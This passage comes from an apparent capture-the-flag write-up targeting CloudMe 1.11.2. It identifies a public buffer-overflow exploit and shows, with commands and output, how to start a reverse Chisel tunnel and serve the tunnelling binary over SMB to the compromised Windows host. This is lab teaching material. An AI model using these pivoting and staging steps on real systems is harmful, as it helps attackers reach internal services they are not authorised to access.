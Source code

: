 ### Researching CloudMe

Searching for [CloudMe 1112 exploit](https://www.google.com/search?q=cloudme+1112+exploit), we get a result on [exploit-db](https://www.exploit-db.com/exploits/48389). Looking at the exploit, it seems to be a simple buffer-overflow at 1052 bytes.

### Preparing CloudMe exploit - Port forward

In order to exploit CloudMe, we have to be able to access port 8888. If we remember our nmap-scan, we see that port `8888` is not open. This means we have to tunnel this port to us. For this we can use [Chisel](https://github.com/jpillora/chisel), which is an easy way to tunnel ports.

In order to use chisel, we have to do three things:

1. Start chisel server on our machine

   ```bash
   root@darkness:~# chisel_linux server -p 8000 --reverse
   2020/11/20 00:17:54 server: Reverse tunnelling enabled
   2020/11/20 00:17:54 server: Fingerprint a6:d6:ce:81:1d:c6:73:46:16:f8:ac:84:af:bb:9b:b3
   2020/11/20 00:17:54 server: Listening on 0.0.0.0:8000...
   ```

   

2. Upload chisel to windows-client

   For uploading chisel, I am going to use a smb-server running on docker. To quickly set one up, I am going to use my [smbserv script](https://github.com/chr0x6eos/SMBServ).

   ```bash
   root@darkness:~# smbserv -f /opt/chisel/chisel_windows.exe 
   
   #####################
   # Simple SMB-Server #
   #    By Chr0x6eOs   #
   #####################
   
   Github: https://github.com/chr0x6eos/SMBServ
   
   About:
   A simple SMB-server running in docker.
   By default current directory will be served.
   
   [+] The file /opt/chisel/chisel_windows.exe will be served via SMB!
   [+] Smb-server (ID: eef3f88e917a) started!
   [+] DONE! :) Container (ID: eef3f88e917a) is now running and serving...
   Your files are available at:
     \\172.17.0.1\share\
     \\192.168.202.138\share\
     \\127.0.0.1\share\
     \\10.10.14.25\share\
   ```

   Now we can simply copy the file from the windows-machine.
